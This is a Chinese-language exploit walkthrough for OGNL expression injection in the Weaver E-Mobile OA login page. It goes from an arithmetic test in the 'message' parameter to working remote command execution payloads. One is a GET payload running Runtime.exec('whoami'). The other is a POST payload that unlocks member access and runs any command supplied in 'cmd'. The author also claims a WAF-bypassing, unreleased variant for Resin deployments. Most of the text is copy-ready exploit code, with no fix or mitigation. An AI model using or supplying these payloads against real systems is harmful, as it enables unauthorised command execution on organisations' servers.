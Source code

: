 ## 泛微e-mobile ognl注入

泛微 E-Mobile 表达式注入?大概?这个洞是一个月以前，老师丢给我玩的，叫我学习一下。
拿到的时候一脸懵逼，什么是表达式注入?去漏洞库看了一圈。
(・。・) 噢！原来可以执行算术运算就是表达式注入呀！
要怎么玩？当计算器用么？～ヾ(*´∇`)ﾉ

一、泛微OA E-Mobile WebServer:**Apache** 通用部分:**apache**
官方有两个OA。一个是**apache**的 一个是**Resin**的。
**Resin**的也找到姿势通杀了，但是**Resin**涉及的站太大了。。。暂时不放出来，因为好像和S2撞洞了？因为045打了WAF的 ，我这个可以执行命令。23333 我也不知道~

```
1、登录页面如下

http://6.6.6.6/login.do?
or
http://6.6.6.6/login/login.do?
```

![](./img/55.png)

```
2、当账号密码报错的时候，出现如下URL
login.do?message=104&verify=
```

![](./img/56.png)

```
3、直接改写message=的内容，试试算术运算。
http://6.6.6.6/login.do?message=66*66*66-66666
```

![](./img/57.png)

o(>ω<)o 这么神奇么~

```
4、表达式注入。
有的表达式注入是${code}。这里隐藏了${}，所以直接调用就行了。
message=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())
```

![](./img/58.png)

```
5、也可以通过`post`提交数据来进行注入，命令执行
`post`如下数据也可以：
message=(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#w=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter()).(#w.print(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(#parameters.cmd[0]).getInputStream()))).(#w.close())&cmd=whoami
```

![](./img/59.png)

参考：

http://sh0w.top/index.php/archives/14/

http://sh0w.top/index.php/archives/39/

https://mp.weixin.qq.com/s/EbzjQvHTl7k9flG-7lqAvA

其他表达式相关文章：[表达式注入.pdf](./books/表达式注入.pdf)|[原文地址](https://misakikata.github.io/2018/09/表达式注入/)

